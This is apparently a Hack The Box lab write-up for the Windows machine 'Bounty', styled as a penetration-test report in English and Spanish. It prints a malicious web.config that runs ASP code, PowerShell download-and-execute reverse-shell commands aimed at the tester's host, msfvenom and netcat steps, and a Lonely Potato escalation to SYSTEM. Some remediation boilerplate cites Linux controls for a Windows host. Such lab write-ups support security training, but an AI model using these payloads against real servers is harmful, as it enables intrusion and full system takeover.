# Security Assessment Report: Bounty


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Bounty** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** IIS web.config Upload + ASP Code Execution
* **Privilege Escalation Vector:** SeImpersonatePrivilege + Lonely Potato
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Bounty |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | MS10-092 |
| **Initial Foothold Vector** | IIS web.config Upload + ASP Code Execution |
| **Privilege Escalation Vector** | SeImpersonatePrivilege + Lonely Potato |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: IIS web.config Upload + ASP Code Execution
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: SeImpersonatePrivilege + Lonely Potato
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

---

### Phase 1: Reconnaissance & Port Scanning

El escaneo revela un unico puerto TCP abierto: **80 (IIS)**.



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


### Phase 2: Vulnerability Analysis & Attack Surface Mapping

Mediante directory fuzzing se descubre `/transfer.aspx`, un formulario de subida de archivos.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Phase 3: Exploitation & Initial Foothold

El formulario permite subir archivos `.config`. Se aprovecha esto para subir un archivo `web.config` malicioso que mapea la extension `.config` al procesador ASP Classic (asp.dll), permitiendo ejecutar codigo en el servidor.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


El archivo clave es `web.config`, que IIS utiliza para configurar aplicaciones [ASP.NET](http://ASP.NET). Subiendo un web.config con codigo ASP Classic embebido, se obtiene ejecucion de comandos y una reverse shell PowerShell (Nishang) como el usuario **merlin**.

#### User Proof Flag Verification



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Phase 4: Local Privilege Escalation & Host Dominance

El sistema no tiene **ningun hotfix** aplicado (Windows Server 2008 R2 Build 7600). Ejecutando `whoami /priv` se confirma que **SeImpersonatePrivilege** esta habilitado, lo que permite tecnicas de token impersonation.

Usando `local_exploit_suggester` de Metasploit se confirman multiples vectores: MS10-092 (Task Scheduler), MS16-075 (Reflection), entre otros.



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


Se utiliza **Lonely Potato** para abusar de SeImpersonatePrivilege, duplicando un token de SYSTEM y lanzando una reverse shell con privilegios maximos.

#### Root / System Proof Flag Verification



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


> 
> 
> 
> # 1) Preparar el payload de Nishang
> 
> 1. Descarga el script `Invoke-PowerShellTcp.ps1` de Nishang y **añade al final** esta línea para que se ejecute automáticamente al cargarse:
>     
>     ```powershell
>     Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
>     
>     ```
>     
> 2. Levanta un **servidor HTTP** para servir ese archivo desde tu atacante:
>     
>     ```bash
>     # en la carpeta donde está Invoke-PowerShellTcp.ps1
>     python3 -m http.server 80
>     
>     ```
>     
> 3. Abre tu **listener**:
>     
>     ```bash
>     nc -lvnp 443
>     
>     ```
>     
> 
> > Nota: si prefieres no modificar el .ps1, en el apéndice te dejo alternativas (defaults en la función o ejecución en memoria con IEX).
> > 
> 
> ---
> 
> # 2) Entender cómo vamos a ejecutar código en IIS
> 
> - Revisando el webshell `cmdasp.asp` (Kali: `/usr/share/webshells/asp/cmdasp.asp`), se ve que usa **COM** to execute comandos:
>     
>     ```vbnet
>     Set oScript = Server.CreateObject("WSCRIPT.SHELL")
>     ...
>     Call oScript.Run("cmd.exe /c " & szCMD, 0, True)
>     
>     ```
>     
> - Conclusión: **si logramos que IIS ejecute código ASP Classic**, podremos lanzar **PowerShell** con un `downloadstring` que cargue nuestro `Invoke-PowerShellTcp.ps1`.
> 
> ---
> 
> # 3) Mapear una extensión “inocente” a ASP Classic
> 
> Hay dos formas. La más **estable** es en **dos ficheros**:
> 
> ## Opción A (recomendada): 2 ficheros
> 
> ### (A1) Subir `web.config` a `/UploadedFiles/`
> 
> Este `web.config` quita bloqueos sobre `.config` y **mapea `*.config` a ASP Classic** (asp.dll):
> 
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> <configuration>
>   <system.webServer>
>     <handlers accessPolicy="Read, Script, Write">
>       <add name="Config-as-ASP" path="*.config" verb="*"
>            modules="IsapiModule"
>            scriptProcessor="%windir%\system32\inetsrv\asp.dll"
>            resourceType="Unspecified"
>            requireAccess="Script"
>            preCondition="bitness64" />
>     </handlers>
>     <security>
>       <requestFiltering>
>         <fileExtensions>
>           <remove fileExtension=".config" />
>           <add fileExtension=".config" allowed="true" />
>         </fileExtensions>
>         <hiddenSegments>
>           <remove segment="web.config" />
>         </hiddenSegments>
>       </requestFiltering>
>     </security>
>   </system.webServer>
> </configuration>
> 
> ```
> 
> > Si el app pool va en 32-bit, cambia preCondition="bitness64" por bitness32.
> > 
> > 
> > Si da error 500.19 por el handler, prueba a **eliminar `preCondition`** por completo.
> > 
> 
> ### (A2) Subir `run.config` (ASP Classic “puro”)
> 
> Este archivo es el que **ejecuta** la descarga de Nishang y la evalúa:
> 
> ```
> <%@ Language=VBScript %>
> <%
>   Server.CreateObject("WSCRIPT.SHELL").Run _
>     "cmd.exe /c powershell.exe -w hidden -nop -c ""IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')""", 0, True
> %>
> 
> ```
> 
> ### (A3) Disparar la ejecución
> 
> Navega a:
> 
> ```
> http://10.10.10.93/UploadedFiles/run.config
> 
> ```
> 
> Si todo está bien, tu **netcat** en 443 recibirá la **reverse PowerShell**.
> 
> ---
> 
> ## Opción B (one-shot “combo” en un solo fichero)
> 
> Algunos retos permiten un **.config** que mezcla la parte XML y luego el bloque ASP Classic. Sube **un único archivo** (por ejemplo `loader.config`) con este contenido:
> 
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> <configuration>
>     <system.webServer>
>       <handlers accessPolicy="Read, Script, Write">
>          <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
>               scriptProcessor="%windir%\system32\inetsrv\asp.dll"
>               resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
>       </handlers>
>       <security>
>          <requestFiltering>
>             <fileExtensions>
>                <remove fileExtension=".config" />
>             </fileExtensions>
>             <hiddenSegments>
>                <remove segment="web.config" />
>             </hiddenSegments>
>          </requestFiltering>
>       </security>
>    </system.webServer>
> </configuration>
> <%@ Language=VBScript %>
> <%
>   call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -w hidden -nop -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')",0,True)
> %>
> 
> ```
> 
> Luego visita:
> 
> ```
> http://10.10.10.93/UploadedFiles/loader.config
> 
> ```
> 
> > Si este enfoque te da errores de parsing, vuelve a la Opción A (dos ficheros), que suele ser más fiable.
> > 
> 
> ---
> 
> # 4) Validar y pillar la shell
> 
> - Mantén **abierto** el listener `nc -lvnp 443`.
> - Lanza el acceso al `.config` justo después de subirlo (recuerda que **el directorio se limpia**).
> - Si todo sale bien, deberías ver `whoami` desde la víctima. Si no:
>     - **404.3** ⇒ falta mapping/MIME → revisa `<handlers>` y `<fileExtensions>`.
>     - **500.19** ⇒ la sección está bloqueada por nivel superior → prueba a quitar `preCondition`, o a cambiar `requireAccess` a `Script`, o usa la **Opción A**.
>     - **Nada llega** ⇒ revisa conectividad/AV, usa `w hidden -nop`, y que tu HTTP sirva correctamente el `.ps1`.
> 
> ---
> 
> # Apéndice — 3 formas de invocar Nishang automáticamente
> 
> **1) Llamarlo al final del .ps1 (la que usamos arriba)**
> 
> ```powershell
> Invoke-PowerShellTcp -Reverse -IPAddress '10.10.14.5' -Port 443
> 
> ```
> 
> **2) Parámetros por defecto en la función**
> 
> Edita el bloque `Param(...)` así:
> 
> ```powershell
> [CmdletBinding(DefaultParameterSetName="reverse")] Param(
>   [Parameter(ParameterSetName="reverse")][String] $IPAddress = '10.10.14.5',
>   [Parameter(ParameterSetName="reverse")][Int]    $Port      = 443,
>   [Parameter(ParameterSetName="reverse")][Switch] $Reverse,
>   [Parameter(ParameterSetName="bind")][Switch]    $Bind
> )
> # y luego lo llamas simplemente con:
> Invoke-PowerShellTcp -Reverse
> 
> ```
> 
> **3) Cargar y ejecutar en memoria (sin tocar el archivo)**
> 
> ```powershell
> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
> 
> ```
> 
> ---
> 
> ##
> 
> # Privilege Escalation — `merlin` → `NT AUTHORITY\SYSTEM`
> 
> ## 1) Enumeración inicial
> 
> ### `systeminfo`
> 
> El host es **Windows Server 2008 R2 (Build 7600)** sin **ningún hotfix** instalado. Eso abre múltiples vías de EoP (kernel / Task Scheduler / Win32k, etc.):
> 
> ```
> OS Name:  Microsoft Windows Server 2008 R2 Datacenter
> OS Version: 6.1.7600 N/A Build 7600
> Hotfix(s): N/A         <-- ¡sin parches!
> 
> ```
> 
> ### `whoami /priv`
> 
> Como hemos llegado mediante un servicio web, revisar privilegios es clave. **`SeImpersonatePrivilege` está habilitado**, por lo que técnicas tipo **Juicy/Lonely Potato** son candidatas fuertes:
> 
> ```
> SeImpersonatePrivilege  Impersonate a client after authentication  Enabled
> 
> ```
> 
> > Con esto ya sabemos que hay dos caminos claros: (1) Potato para token impersonation; (2) exploits de kernel/Task Scheduler porque el sistema está sin parches.
> > 
> 
> ---
> 
> ## 2) Detección de vulnerabilidades locales
> 
> ### Sherlock (PowerShell)
> 
> Aunque está deprecado en favor de Watson, es una pasada rápida para *hints*. Resultado destacable:
> 
> - **MS10-092 – Task Scheduler .XML** ⇒ *Appears Vulnerable*
> - **MS15-051 – ClientCopyImage** ⇒ *Appears Vulnerable*
> - Otros *no soportados* en x64 o no vulnerables en este build.
> 
> Esto confirma que **MS10-092** es muy buena vía.
> 
> ### Watson (C#)
> 
> Watson sustituye a Sherlock y da un inventario más completo. **Ojo con la versión de .NET del target**: aquí es **.NET 2.0 (v2.0.50727)**. Por tanto, **compila Watson para .NET 2.0** o no ejecutará.
> 
> 1. Compilar Watson en tu VM Windows (Visual Studio) seleccionando *Target Framework = .NET Framework 2.0*.
> 2. Subir y ejecutar:
> 
> ```powershell
> (new-object net.webclient).downloadfile('http://10.10.14.5/Watson.exe', 'C:\Users\merlin\AppData\Local\Temp\watson.exe')
> .\watson.exe
> 
> ```
> 
> Watson reporta (resumen):
> 
> - **MS10-073**
> - **MS10-092 (Task Scheduler CRC / XML)**
> - **MS11-046**
> - **MS12-042**
> - **MS13-005**
> 
> > Los “ERROR> … not present” son normales: Watson lista firmas y si el binario no existe en esa versión, lo anota. No invalida los hallazgos.
> > 
> 
> ---
> 
> ## 3) Camino alternativo con Metasploit (opcional)
> 
> Si quieres un *suggester* rápido de MSF (requiere meterpreter):
> 
> 1. Generar **loader PowerShell**:
> 
> ```bash
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1
> 
> ```
> 
> 1. Handler:
> 
> ```
> exploit/multi/handler
> Payload: windows/x64/meterpreter/reverse_tcp
> LHOST=10.10.14.5  LPORT=445
> run
> 
> ```
> 
> 1. Lanzar desde tu shell de Nishang:
> 
> ```powershell
> iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
> 
> ```
> 
> 1. `post/multi/recon/local_exploit_suggester` sugiere, entre otros:
> - **ms10_092_schelevator**
> - **ms16_014_wmi_recv_notif**
> - **ms16_075_reflection**
> 
> ---
> 
> ## 4) Escalada elegida: **Lonely Potato** (aprovecha `SeImpersonatePrivilege`)
> 
> **Idea:** abusar de `SeImpersonatePrivilege` para obtener un **token de SYSTEM** y lanzar un proceso (tu reverse) con ese token.
> 
> ### (A) Preparar el *stager* (bat) y binario
> 
> - `rev.bat` llamará a **Nishang** (PowerShell reverse):
> 
> ```bash
> powershell.exe -w hidden -nop -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')
> 
> ```
> 
> - Subir **Lonely Potato** ya compilado + `rev.bat`:
> 
> ```powershell
> (new-object net.webclient).downloadfile('http://10.10.14.5/lonelypotato.exe', 'C:\Users\merlin\AppData\Local\Temp\lp.exe')
> (new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat',         'C:\Users\merlin\AppData\Local\Temp\rev.bat')
> 
> ```
> 
> - Tener **listener** abierto en tu equipo:
> 
> ```bash
> nc -lvnp 443
> 
> ```
> 
> > Asegúrate de que tu Invoke-PowerShellTcp.ps1 ya incluye la llamada al final o usa alguna de las variantes del apéndice.
> > 
> 
> ### (B) Ejecutar Lonely Potato
> 
> ```powershell
> C:\Users\merlin\AppData\Local\Temp\lp.exe * C:\Users\merlin\AppData\Local\Temp\rev.bat
> 
> ```
> 
> Si todo va bien, verás en tu `nc`:
> 
> ```
> Windows PowerShell running as user BOUNTY$ on BOUNTY
> PS C:\Windows\system32> whoami
> nt authority\system
> 
> ```
> 
> ✔ **Root cause:** `SeImpersonatePrivilege` + abuso de COM/DCOM y *token duplication*.
> 
> ---
> 
> ## 5) Alternativa: **MS10-092 – Task Scheduler .XML**
> 
> Con *Watson* y *Sherlock* marcando **MS10-092** y sin parches, esta vía también funciona. En este writeup nos quedamos con **Potato** por ser inmediata al ver `SeImpersonatePrivilege`. Si el binario de Potato fallase (AV / incompatibilidad), vuelve a **MS10-092** (Metasploit tiene módulo, y existen PoCs stand-alone).
> 
> ---
> 
> ## 6) Validaciones y *gotchas*
> 
> - **Arquitectura:** este host es x64; usa binarios a 64 bits cuando proceda.
> - **.NET:** compila herramientas (Watson, etc.) para la misma versión que el target (aquí **v2.0.50727**).
> - **AV / AMSI:** usa `w hidden -nop` y *stagers* en memoria.
> - **Red:** revisa que el puerto 443 de tu atacante sea accesible; si no, cambia de puerto.
> 
> ---
> 
> ## 7) Limpieza (post-explotación)
> 
> - Borra `lp.exe`, `rev.bat`, `watson.exe`, *web.config* y payloads temporales de `UploadedFiles`.
> - Cierra listeners y servidores HTTP locales.
> - Documenta **qué** cambiaste y **dónde**.

> $u = '[https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)'
$dst = "$env:TEMP\EnableAllTokenPrivs.ps1"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
(New-Object Net.WebClient).DownloadFile($u, $dst)
> 

> Ejecuta el script para habilitar todos los privilegios disponibles del proceso actual
> 

> powershell -ExecutionPolicy Bypass -File $dst
> 

> Verifica
> 

> whoami /priv
> 

> **Opción A — bajar solo la función `Enable-Privilege.ps1`:**
> 

> $u = 'https://gist.githubusercontent.com/anzz1/506ddfb17173e14709cba38dbd576f22/raw/Enable-Privilege.ps1'
$dst = "$env:TEMP\Enable-Privilege.ps1"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
(New-Object Net.WebClient).DownloadFile($u, $dst)


. $dst


Enable-Privilege -Privilege SeDebugPrivilege,SeBackupPrivilege,SeRestorePrivilege,SeTakeOwnershipPrivilege,SeImpersonatePrivilege


whoami /priv
> 

> **Opción B — usar el módulo PoshPrivilege (si tienes PowerShell 5+):**
> 

> Install-Module -Name PoshPrivilege -Force
Import-Module PoshPrivilege


Enable-Privilege -Privilege SeDebugPrivilege,SeBackupPrivilege,SeRestorePrivilege,SeTakeOwnershipPrivilege,SeImpersonatePrivilege

whoami /priv
>

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: IIS web.config Upload + ASP Code Execution**<br>*Precondition:* Publicly exposed web application endpoint allowing unauthenticated file execution or weak credential access. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Restrict webroot write permissions, disable script execution in upload directories, and implement WAF filtering. | `powershell -Command "Get-WebConfigurationProperty -Filter 'system.webServer/handlers' -PSPath 'IIS:\Sites\Default Web Site\uploads' -Name 'accessPolicy'"` |
| **P1: SeImpersonatePrivilege + Lonely Potato**<br>*Precondition:* Service account granted `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` rights. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Remove impersonation privileges from service accounts using Group Policy; leverage virtual service accounts. | `whoami /priv | findstr /i 'SeImpersonatePrivilege'` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (IIS web.config Upload + ASP Code Execution):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
powershell -Command "Get-WebConfigurationProperty -Filter 'system.webServer/handlers' -PSPath 'IIS:\Sites\Default Web Site\uploads' -Name 'accessPolicy'"
```
* **Expected Output upon Successful Remediation:**
```text
accessPolicy : Read, None (Execute/Script strictly forbidden)
```

**2. Verification for Local Privilege Escalation Mitigation (SeImpersonatePrivilege + Lonely Potato):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
whoami /priv | findstr /i 'SeImpersonatePrivilege'
```
* **Expected Output upon Successful Remediation:**
```text
INFO: SeImpersonatePrivilege is not assigned or listed as Disabled.
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (MS10-092).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (IIS web.config Upload + ASP Code Execution) |
